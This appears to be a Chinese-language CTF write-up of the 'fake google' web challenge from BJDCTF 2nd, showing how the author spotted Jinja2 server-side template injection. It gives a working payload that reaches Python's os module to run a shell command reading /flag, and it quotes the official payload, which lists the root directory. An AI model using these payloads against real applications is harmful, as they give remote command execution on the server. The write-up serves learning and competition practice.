 ```yaml
---
layout: post
title: BJDCTF 2nd Web Writeup
data: 2020-03-23
categories: Writeups
tags: 
 - CTF
 - Writeup
description:  
excerpt_separator: <!-- more -->
---
```


上周末BJD第二场，又是一届新生赛，尽管如此还是暴露出了很多问题。这段时间就先把这次总结出来的问题解决一下。



# fake google

{% raw %}

## 题目描述

题目用了谷歌搜索的前端页面，随便输入点东西，返回：

``` 
P3's girlfirend is : foo
```

原样返回了，再看看源码：

``` html
<!--ssssssti & a little trick -->
```

## 解题思路

都这么明显了，直接SSTI，先检测一下什么模板：

```
{{7*'7'}} => 7777777
```

是Jinja2。然后试了一下，发现"{%%}"标签和好多函数都不能用，最后importi了os，读取了flag，Payload：

```
{{''.__class__.__mro__[1].__subclasses__()[64].__init__.__globals__['__import__']('os').popen('base64 < /flag').read()}}
```

## 备注

1. 说实话并不知道为什么那些函数不能用了，回头看看出题笔记。

2. 好像也做过好几个SSTI了，当然只是是非常基础的类型，但每次都是找博客，直接抄抄改改人家的Payload。接下来好好整理总结一下SSTI。

3. Payload找可用函数的时候因为"{%%}"标签不能用，是手动二分出来的，其实可以用Python搞。

4. 还不是很理解Python的类什么的，回炉重造一波。

5. 贴一个官方的Payload：

    ```
    ?name={{ config.class.init.globals['os'].popen('ls /').read() }}
    ```

{% endraw %}
